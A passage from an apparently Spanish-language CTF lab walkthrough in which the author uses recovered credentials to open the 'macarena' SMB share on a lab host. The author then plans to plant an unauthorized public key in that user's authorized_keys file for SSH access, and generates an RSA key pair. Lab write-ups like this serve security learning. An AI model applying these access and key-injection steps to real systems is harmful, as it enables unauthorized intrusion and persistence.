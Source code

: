 
- Una vez con la contraseña se accede al recurso compartido macarena
```bash

smbclient //172.17.0.2/macarena -U macarena%donald


smbclient //172.17.0.2/macarena -U macarena%donald

Try "help" to get a list of possible commands.
smb: \> 
smb: \> 
smb: \> 
smb: \> ls
  .                                   D        0  Mon Aug 19 19:26:02 2024
  ..                                  D        0  Mon Aug 19 19:26:02 2024
  .bashrc                             H     3771  Mon Aug 19 18:18:51 2024
  .cache                             DH        0  Mon Aug 19 18:40:39 2024
  user.txt                            N       33  Mon Aug 19 18:20:25 2024
  .bash_logout                        H      220  Mon Aug 19 18:18:51 2024
  .bash_history                       H        5  Mon Aug 19 19:26:02 2024
  .profile                            H      807  Mon Aug 19 18:18:51 2024


```

NOTA: *La característica de esta configuración en particular es que la contraseña utilizada para acceder al recurso compartido “macarena” (protocolo SMB) no sirve para acceder al sistema con el usuario “macarena” (protocolo SSH). **En este caso se ha realizado una división correcta entre credenciales y servicios**. Por ello, el acceso en este caso se debe realizar de otra forma*

ahora haremos: **inyección de una clave pública no autorizada en el archivo authorized_keys**.
debido a que los servicios compartido con el protocolo SMB están divididos del usuario macarena protocolo SMB.

IMPORTANTE: *en la imagen superior se observa que el usario macarena no tiene ninguna clave publica autorizada por lo tanto se tiene que crear una manualmente*

Para ello, primero **se crean un par de claves RSA** (pública y privada) en nuestra máquina de trabajo utilizando la herramienta “**ssh-keygen**”.

```bash
❯ ssh-keygen -t rsa -b 4096

Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase for "/home/kali/.ssh/id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:pHAXyjbcg6ysa0GMsaUC3ax1fbCd5u/Mwo1A9ZyCII0 kali@kali
The key's randomart image is:
+---[RSA 4096]----+
| . o o .o.       |
|o o E+++.+o.     |
|.B o.oX.*++o .   |
|= +. = =o+. +    |
|..  o ..S ..     |
|  ..    .  .     |
|  ..     o o.    |
|  ..      ++.    |
| ..        .+    |
+----[SHA256]-----+


Y copiamos las claves al directorio donde tenemos las maquinas o donde queramos.
```